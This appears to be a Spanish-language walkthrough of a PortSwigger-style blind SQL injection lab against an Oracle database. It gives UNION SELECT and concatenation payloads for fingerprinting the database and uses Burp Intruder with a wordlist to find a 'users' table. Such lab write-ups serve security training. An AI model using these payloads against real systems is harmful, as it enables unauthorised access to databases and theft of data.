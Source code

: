 El campo es de tipo `String`, hacemos el llamado a la tabla DUAL ya que estamos ante una BD Oracle

```javascript
' UNION SELECT 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-12/campos.png)

## Miramos que BD esta corriendo

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Como de antemano la consulta tocó ingresarle la tabla DUAL de Oracle, vamos a corroborar que sea Oracle. Como nos arroja una respuesta `200` sabemos que es oracle.

```sql
' UNION SELECT banner FROM v$version--
```

![Oracle]({{site.url}}/images/SQLi/sqli-12/oracle.png)

## Comprobamos nombre de tablas

Ya que `no` conocemos las tablas que tiene la BD, haremos un ataque para comprobar que tablas existen. Si existe la tabla tendra que mostrar un estado `200` ya que estamos trabajando con Blind SQL 

```sql
' || (SELECT '' FROM payload WHERE rownum =1 ) || '
```

Vamos a usar la herramienta intruder para hacer el ataque.
Ejemplo de nombre de tablas:

```text
products
items
inventory
orders
order_items
sales
transactions
pricing
categories
customers
clients
users
profiles
subscriptions
addresses
```

![Intruder]({{site.url}}/images/SQLi/sqli-12/Intruder.png)

Cargamos los posibles nombres de tablas y filtramos por estado `200` y vemos que la tabla se llama `users`
